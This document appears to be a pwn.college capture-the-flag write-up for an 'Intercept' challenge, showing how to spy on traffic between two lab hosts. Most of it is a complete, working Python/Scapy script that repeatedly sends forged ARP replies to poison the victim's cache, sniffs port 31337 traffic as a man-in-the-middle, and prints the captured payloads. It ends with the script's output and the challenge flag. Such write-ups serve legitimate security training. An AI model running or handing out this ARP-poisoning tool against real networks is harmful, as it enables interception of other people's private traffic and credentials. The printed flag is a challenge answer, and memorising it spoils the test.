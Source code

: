 # 🛰️ Intercept – Writeup (pwn.college)

## 📌 Challenge Summary

> Intercept traffic from a remote host.  
> The remote host at `10.0.0.2` is communicating with another host at `10.0.0.3` over port `31337`.  
> Your task is to **intercept this communication** and extract the flag — without modifying or directly interacting with the server.

---

## 🧠 Understanding the Setup

### Network Layout:

- `10.0.0.2` → Victim (sending/receiving sensitive data on port `31337`)
- `10.0.0.3` → Intended recipient (target of `10.0.0.2`'s communication)
- `10.0.0.1` → You, the attacker

### Objective:

- Traffic between `.2` and `.3` is not visible to you by default.
- You must **perform ARP spoofing** to trick the victim into sending packets to **your MAC**, thinking it’s `.3`.

---

## 🔍 How We Exploit It

### 🔒 Challenge:
- The victim at `10.0.0.2` only talks to `10.0.0.3`.
- Packets don't route through you.
- You need to **become a man-in-the-middle**.

### ✅ Solution:
- **ARP poisoning**: Send a forged ARP reply to `10.0.0.2`, saying "`10.0.0.3 is at my MAC address`".
- This makes `.2` send all `.3`-bound traffic **to you instead**.
- Once you receive it, simply **sniff the data** and extract the flag.

---

## 🧪 Attack Plan

1. **Resolve the MAC** of `10.0.0.2` using ARP.
2. **Send fake ARP replies** repeatedly to `10.0.0.2`, claiming `10.0.0.3` is at your MAC.
3. **Sniff traffic** using Scapy on port `31337`.
4. **Extract and print payloads** from intercepted packets.

---

## 💣 Final Exploit – `correctc.py`

```python
from scapy.all import *
import threading
import time

victim_ip = '10.0.0.2'
spoof_ip = '10.0.0.3'
iface = 'eth0'  # Use appropriate interface

def get_mac(ip):
    ans, _ = sr(ARP(pdst=ip), timeout=2, retry=2, verbose=0)
    for sent, rec in ans:
        return rec.hwsrc
    return None

def poison(victim_ip, spoof_ip):
    victim_mac = get_mac(victim_ip)
    if victim_mac is None:
        print(f"[!] Error: MAC for {victim_ip} not found.")
        return

    arp_poison = ARP(op=2, pdst=victim_ip, hwdst=victim_mac, psrc=spoof_ip)
    print(f"[+] Starting ARP Poison: {victim_ip} <- {spoof_ip} is at OUR MAC")

    while True:
        send(arp_poison, iface=iface, verbose=0)
        time.sleep(2)

def sniffing():
    print("[+] Starting to sniff packets...")

    def handler(pkt):
        if pkt.haslayer(Raw):
            try:
                payload = pkt[Raw].load.decode(errors='ignore')
                print(f"[+] Intercepted: {payload}")
            except Exception as e:
                pass

    sniff(filter='tcp and port 31337', iface=iface, prn=handler, store=0)

# Create and start threads
poison_thread = threading.Thread(target=poison, args=(victim_ip, spoof_ip))
sniff_thread = threading.Thread(target=sniffing)

poison_thread.start()
sniff_thread.start()
```
### Output
```bash
[+] Starting to sniff packets...
[+] Starting ARP Poison: 10.0.0.2 <- 10.0.0.3 is at OUR MAC

[+] Intercepted: pwn.college{ICmDbqZFGWJpgfbWt_tHbUDJt6J.QXxczMzwSM0IzMyEzW}
[+] Intercepted: pwn.college{ICmDbqZFGWJpgfbWt_tHbUDJt6J.QXxczMzwSM0IzMyEzW}
[+] Intercepted: pwn.college{ICmDbqZFGWJpgfbWt_tHbUDJt6J.QXxczMzwSM0IzMyEzW}
...
```

---

## Flag
```
pwn.college{ICmDbqZFGWJpgfbWt_tHbUDJt6J.QXxczMzwSM0IzMyEzW}
```
---
